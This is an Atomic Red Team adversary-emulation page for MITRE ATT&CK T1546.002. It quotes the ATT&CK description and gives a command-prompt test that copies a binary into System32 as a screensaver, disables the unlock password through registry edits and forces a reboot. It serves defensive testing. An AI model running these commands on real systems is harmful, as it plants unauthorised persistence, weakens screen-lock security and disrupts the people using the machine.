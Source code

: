 # T1546.002 - Screensaver
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/002)
<blockquote>Adversaries may establish persistence by executing malicious content triggered by user inactivity. Screensavers are programs that execute after a configurable time of user inactivity and consist of Portable Executable (PE) files with a .scr file extension.(Citation: Wikipedia Screensaver) The Windows screensaver application scrnsave.scr is located in <code>C:\Windows\System32\</code>, and <code>C:\Windows\sysWOW64\</code>  on 64-bit Windows systems, along with screensavers included with base Windows installations.

The following screensaver settings are stored in the Registry (<code>HKCU\Control Panel\Desktop\</code>) and could be manipulated to achieve persistence:

* <code>SCRNSAVE.exe</code> - set to malicious PE path
* <code>ScreenSaveActive</code> - set to '1' to enable the screensaver
* <code>ScreenSaverIsSecure</code> - set to '0' to not require a password to unlock
* <code>ScreenSaveTimeout</code> - sets user inactivity timeout before screensaver is executed

Adversaries can use screensaver settings to maintain persistence by setting the screensaver to run malware after a certain timeframe of user inactivity.(Citation: ESET Gazer Aug 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Set Arbitrary Binary as Screensaver](#atomic-test-1---set-arbitrary-binary-as-screensaver)


<br/>

## Atomic Test #1 - Set Arbitrary Binary as Screensaver
This test copies a binary into the Windows System32 folder and sets it as the screensaver so it will execute for persistence. Requires a reboot and logon.

**Supported Platforms:** Windows


**auto_generated_guid:** 281201e7-de41-4dc9-b73d-f288938cbb64





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| input_binary | Executable binary to use in place of screensaver for persistence | Path | C:&#92;Windows&#92;System32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
copy #{input_binary} "%SystemRoot%\System32\evilscreensaver.scr"
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveActive /t REG_SZ /d 1 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveTimeout /t REG_SZ /d 60 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaverIsSecure /t REG_SZ /d 0 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "%SystemRoot%\System32\evilscreensaver.scr" /f
shutdown /r /t 0
```






<br/>
